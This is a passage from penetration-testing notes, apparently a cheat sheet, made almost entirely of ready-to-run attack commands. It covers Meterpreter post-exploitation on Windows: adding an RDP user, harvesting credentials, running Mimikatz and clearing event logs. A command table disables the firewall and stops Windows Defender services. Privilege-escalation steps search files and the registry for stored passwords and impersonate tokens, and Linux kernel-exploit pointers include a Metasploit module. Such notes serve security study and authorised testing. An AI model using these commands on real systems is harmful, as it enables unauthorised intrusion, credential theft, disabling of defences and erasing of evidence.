     - From meterpreter: `run getgui -u kevin -p pass`
  - Test the access
    - From meterpreter: `rdesktop -u <username> -p <password> <IP>`
- Grab the data
  - From meterpreter: `run winenum`
- Grab credentials
  - From meterpreter: `run post/windows/gather/credentials/credential_collector`
- View recent files
  - From meterpreter: `run post/windows/gather/dumplinks`
- Installed applications
  - From meterpreter: `run post/windows/gather/enum_applications`
- Ask for exploit suggestions
  - From meterpreter: `run post/multi/recon/local_exploit_suggester`
- USB history
  - From meterpreter: `run post/windows/gather/usb_history`
- Event manager information
  - From meterpreter: `run event_manager -i`
- Clear the events log
  - From meterpreter: `run event_manager -c`
- Mimikatz
  - Try to grab passwords
  - From meterpreter: `load mimikatz`
  - From meterpreter: `kerberos`

| Command | Description |
| --- | --- |
| `netsh firewall set opmode disable` | Disables the firewall |
| `net stop "Windows Defender Antivirus Network Inspection Service"` | Stops the services[^3] |
| `net stop "Windows Defender Antivirus Service"` | Stops the services[^3] |
| `net stop "Windows Defender Security Center Service"` | Stops the services[^3] |

### Escalating privileges on Windows
- Use meterpreter
  - `getsystem -h`
  - `incognito`
  - `list_tokens -u` + `impersonate_token <machine_name>\<user|Administrator>`
- See [checklist](https://steflan-security.com/windows-privilege-escalation-cheat-sheet/)
- Search data in a Windows shell
  - `dir /s *pass* == *cred* == *vnc* == *.config*`
  - `findstr /si password *.xml *.ini *.txt`
- In the registry
  - `reg query HKLM /f password /t REG_SZ /s`
  - `reg query HKCU /f password /t REG_SZ /s`
- In unattended files
  - `c:\sysprep.inf`
  - `c:\sysprepsysprep.xml`
  - `%WINDIR%\Panther\Unattend\Unattended.xml`
  - `%WINDIR%\Panther\Unattended.xml`
### Escalating privileges on Linux
- Dirty Cow for Ubuntu > 15.04
- Overlayfs for Ubuntu <= 15.04. Available in Metasploit. Requires buteforcing a service (usually ssh)
  - `use exploit/linux/local/overlayfs_priv_esc`
- eBPF escalation, for Ubuntu == 16.04
- Determine the kernel version, `uname -a`
- Additional information, `cat /etc/lsb-release`
- Spawn a bash shell (if the current shell is limited)


[^1]: in `nmap` both `-sn` and `-sP` mean the same (don't ping). `-sn` is the most recent flag deprecating `-sP`.
[^2]: or `nmap -p "*" <IP_ADDRESS>`.
[^3]: Depending on the level of access the command might not work.